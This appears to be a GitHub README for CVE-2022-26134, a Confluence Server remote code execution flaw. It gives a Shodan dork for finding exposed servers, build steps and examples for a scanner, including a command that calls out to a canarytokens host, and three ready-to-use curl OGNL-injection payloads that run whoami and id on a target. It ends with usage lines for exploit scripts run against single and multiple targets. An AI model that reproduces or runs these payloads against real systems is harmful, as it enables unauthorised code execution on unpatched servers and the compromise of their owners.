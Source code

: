 # CVE-2022-26134
![](https://img.shields.io/static/v1?label=Product&message=Confluence%20Server&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%20from%201.3.0%20before%207.4.17,%20from%207.13.0%20before%207.13.7,%20from%207.14.0%20before%207.14.3&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork
```
http.favicon.hash:-305179312
```
<!-- Here is an Easter Egg for inquiring minds
shodan-favicon-hashes - https://mega.nz/file/ctdH3LAB#lnE0GUkfCacwA18wR1VQI6TxIJ4OKM_6YKQdpHY4GN0
-->

- Scan hosts for vulnerability
```
git clone https://github.com/redhuntlabs/ConfluentPwn; cd ConfluentPwn
```
```
go build
```
```
./cfscan -h
```
```
Examples:
  ./cfscan 1.2.3.4:80 1.1.1.1:8080
  ./cfscan -file urls.txt
  ./cfscan -cmd 'nslookup xxxxxxxxxxxxxxxxx.canarytokens.com 1.1.1.1:80'
  ./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```



- Curl PoC

```
curl -v http://target_IP:port/%24%7BClass.forName%28%22com.opensymphony.webwork.ServletActionContext%22%29.getMethod%28%22getResponse%22%2Cnull%29.invoke%28null%2Cnull%29.setHeader%28%22X-Cmd-Response%22%2CClass.forName%28%22javax.script.ScriptEngineManager%22%29.newInstance%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20d%3D%27%27%3Bvar%20i%20%3D%20java.lang.Runtime.getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%3B%20while%28i.available%28%29%29d%2B%3DString.fromCharCode%28i.read%28%29%29%3Bd%22%29%29%7D/
```
or
```
curl -v http://target_IP:port/${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Cmd-Response",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("var d='';var i = java.lang.Runtime.getRuntime().exec('whoami').getInputStream(); while(i.available())d+=String.fromCharCode(i.read());d"))}/
```
or
```
curl -v http://target_IP:port/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
``` 
- Usage

Exploit single target
```
python3 exploit.py https://target.com CMD
```
```
python3 exploit2.py -u http://xxxxx.com -c id
```
Exploit multi-targets
```
python3 exploit2.py -f urls.txt -c id
```
